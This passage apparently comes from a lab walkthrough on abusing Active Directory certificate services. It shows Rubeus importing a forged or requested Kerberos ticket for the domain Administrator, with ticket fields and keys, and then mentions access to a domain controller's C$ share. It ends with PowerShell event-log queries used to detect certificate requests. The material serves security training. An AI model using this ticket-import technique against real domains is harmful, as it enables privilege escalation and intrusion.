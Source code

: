 ```powershell
      XWyWhPIdDOhmZ+aHMh0PMwZpELtZ5NknY2wzxguP3jrTUm1cwXPlGLWvIw4DLAtlFGnd2ladNj33filP
      aUqsWreo6RYcRkHrDmUUAUrUFP/+72DG5ms70/ncq7XhgOnHaeNg+CKU8tQ0J710HuyeVqFYWRa6nOOB
      WPFCQOSaULrrLDdJGqqtbAof4Hi1bgH3WGdtZyRkoWmF/gQR/BdE1yx1okqNnM99EjcuuHaJHy+og+x/
      LU4Ehd9uzdB4o0X2t72v9gjUJTiFRHPP3/6bo4HYMIHVoAMCAQCigc0Egcp9gccwgcSggcEwgb4wgbug
      GzAZoAMCARehEgQQKQTCgNhj3sh4yXvrBwTfeqENGwtFQUdMRS5MT0NBTKIaMBigAwIBAaERMA8bDUFk
      bWluaXN0cmF0b3KjBwMFAEDhAAClERgPMjAyMjEyMTkyMDA0NTNaphEYDzIwMjIxMjIwMDYwNDUzWqcR
      GA8yMDIyMTIyNjIwMDQ1M1qoDRsLRUFHTEUuTE9DQUypIDAeoAMCAQKhFzAVGwZrcmJ0Z3QbC2VhZ2xl
      LmxvY2Fs
[+] Ticket successfully imported!

  ServiceName              :  krbtgt/eagle.local
  ServiceRealm             :  EAGLE.LOCAL
  UserName                 :  Administrator
  UserRealm                :  EAGLE.LOCAL
  StartTime                :  19/12/2022 21.04.53
  EndTime                  :  20/12/2022 07.04.53
  RenewTill                :  26/12/2022 21.04.53
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  KQTCgNhj3sh4yXvrBwTfeg==
  ASREP (key)              :  2EB79553702442F11E93044E3C915490
```

![Rubeus](img/Rubeus.png)

> After successful authentication, we will be able to list the content of the `C$` share on `DC1`:


[PKI]: PS C:\Users\htb-student\Documents> Get-WINEvent -FilterHashtable @{Logname='Security'; ID='4886'}
[PKI]: PS C:\Users\htb-student\Documents> Get-WINEvent -FilterHashtable @{Logname='Security'; ID='4887'}
[pki]: PS C:\Users\htb-student\Documents> $events = Get-WinEvent -FilterHashtable @{Logname='Security'; ID='4886'}
[pki]: PS C:\Users\htb-student\Documents> $events[0] | Format-List -Property *